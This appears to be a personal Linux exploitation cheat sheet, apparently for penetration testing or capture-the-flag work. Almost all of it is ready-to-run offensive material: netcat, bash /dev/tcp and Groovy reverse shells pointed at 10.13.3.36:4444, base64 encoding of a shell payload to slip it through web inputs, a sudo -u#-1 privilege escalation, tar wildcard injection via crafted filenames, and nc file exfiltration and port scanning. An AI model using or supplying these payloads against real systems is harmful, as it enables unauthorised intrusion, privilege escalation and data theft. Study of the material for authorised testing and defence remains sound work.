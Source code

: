 # Linux Exploitation

## Enumerate Linux Machine
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite): 
    * `./linpeas.sh | tee enum.txt` 
    * `less -r enum.txt`

## Find Interesting Files
* Find File With uuid Permission
    * `find / -perm /u=s 2>/dev/null`
    * `find / -perm /4000 2>/dev/null`
* Files With Capabilities
    * `getcap -r / 2>/dev/null`


## Generate reverse ncat
* `msfvenom -p cmd/unix/reverse_netcat lhost=10.13.3.36 lport=4444`
    * `mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg`
* Bash Reverse Shell
    * `bash -c 'bash -i >& /dev/tcp/10.13.3.36/4444 0>&1'`
    * Create one to send on the web
```bash
$ echo 'bash -i >& /dev/tcp/localhost/4444 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC9sb2NhbGhvc3QvNDQ0NCAwPiYxCg==

# Add spaces to remove the + and =

$ echo 'bash  -i >& /dev/tcp/localhost/4444 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvbG9jYWxob3N0LzQ0NDQgMD4mMSAK

# Send this as the payload
$ echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvbG9jYWxob3N0LzQ0NDQgMD4mMSAK | base64 -d | bash
```
* Listener: `nc -klvnp 4444`
    * k - Wait for more connections after completion
    * l - Listen for connection
    * v - Verbose
    * n - Don't do DNS lookup
    * p - Port to listen to

## Reverse Shells

### PHP Reverse Shells
* phpbash (webshell): https://github.com/Arrexel/phpbash
* php-reverse-shell.php : https://github.com/pentestmonkey/php-reverse-shell
* #!/usr/bin/env php

### Groovy Reverse Shell
```groovy
String host="10.13.3.36";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Stabilisation of Shell
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm
```
CTRL-z
```sh
stty raw -echo;fg
```

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/


## sudo
* List sudo Permisions
    * `sudo -l`
* Abuse sudo with (ALL, !root)
    * `sudo -u#-1`

## Abuse tar With Wildcard *
```sh
echo "mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

## Using nc To Transfer Files

On the receiving machine
```bash
nc -l -p 1234 > file
```
On the sending machine, open the connection and send the file.

```bash
nc -w 3 10.13.3.36 1234 < file
```

## Scan for Open Ports With nc
```bash
import os

for i in range(65535):
        command = f"nc -v -z -n -w 1 172.17.0.1 {i}"
        os.system(command)
```
